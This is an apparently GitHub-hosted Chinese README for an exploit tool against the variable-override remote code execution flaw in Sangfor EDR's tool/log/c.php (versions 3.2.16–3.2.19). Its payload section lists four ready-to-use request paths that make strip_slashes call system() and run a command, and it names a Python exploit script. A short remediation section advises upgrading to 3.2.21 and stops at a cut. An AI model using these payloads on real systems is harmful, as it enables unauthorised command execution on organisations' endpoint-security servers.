

# sangforEdr

## 说明

tool\log\c.php文件的变量覆盖漏洞也是最早开始网传的深信服的RCE漏洞。。
https://xxx.xxx/tool/log/c.php?strip_slashes=system&host=id
原理就是典型的变量覆盖漏洞


## Payload

```
/tool/log/c.php?strip_slashes=system&host=id
/tool/log/c.php?strip_slashes=system&path=id
/tool/log/c.php?strip_slashes=system&row=id
/tool/log/c.php?strip_slashes=system&limit=id
```

## 使用方法

python3 EDR_RCE.py --help



## 影响范围

- 深信服 EDR v3.2.16
- 深信服 EDR v3.2.17
- 深信服 EDR v3.2.19

## 漏洞处置建议

深信服官方已经发布升级版本和补丁，更新至v3.2.21版本或升级补丁即可修复该问题并增强其他安全机制。
1、可以通过在线升级方式推送补丁包修复该漏洞，开启在线升级功能可自动修复该漏洞。
2、针对无法在线升级的用户，用户可通过以下链接下载升级安装包来完成EDR的升级工作：